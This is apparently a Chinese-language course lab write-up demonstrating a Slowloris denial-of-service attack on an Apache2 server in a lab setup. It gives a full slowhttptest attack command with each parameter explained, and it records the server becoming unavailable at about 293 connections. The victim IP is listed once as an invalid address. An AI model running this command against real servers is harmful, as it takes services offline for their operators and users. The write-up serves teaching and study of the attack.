 	- Slowloris 攻击实验（以apche2服务器为例）
	
		- 实验环境
		
			attacker (kali  + slowhttptest)  `ip 169.254.227.182`
			victim(apache2 + wireshark)   `ip 169.254.227.283`
		- 实验内容
			- 首先在attacker上安装slowhttptest,在victim上打开apache2服务
				`apt install slowhttptest`
				`service apache2 start`
			
			- 查看slowhttptest和apache2版本信息
				```python
				#victim上apache2的版本信息
				apache2 -version
				Server version: Apache/2.4.34 (Debian)
				Server built:   2018-07-27T19:37:37
				
				#attacker上slowhttptest版本信息
				slowhttptest version 1.6
				```
			
			- 在attacker使用`slowhttptest -c 500 -H -g -o outputfile -i 10 -r 200 -t GET -u http://169.254.227.183/ -x 24 -p 2` 对victim上的apache2服务进行攻击。
				
				```python
				#参数解释
				-c 500 = 500 connections
				 -H   Slowloris mode
				  -g   Generate statistics
				  -o outputfile    Output file name
				  -i 10 wait data 10 seconds
				   -r 200 200 connections with GET requests
				   -u url  url to attack
				   -x 24  data length
				   -p 2 2 seconds timeout
				```
			
			- 代码开始执行时，屏幕输出显示了攻击状态，刚开始连接数较少时屏幕截图如下,此时连接数较少，服务器仍是可用的，使用浏览器访问`169.254.227.183` 仍能刷新出apache2的首页。
				
				![1](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/raw/master/img/1.PNG)
				
			- 随着连接数的增加，服务器变为不可用状态，由下图可知当连接数达到293时，服务器已经处于不可用状态，可见victim  apache2服务器最多只能进行293个http连接。
			此时访问victim`apache2服务`，无响应。
			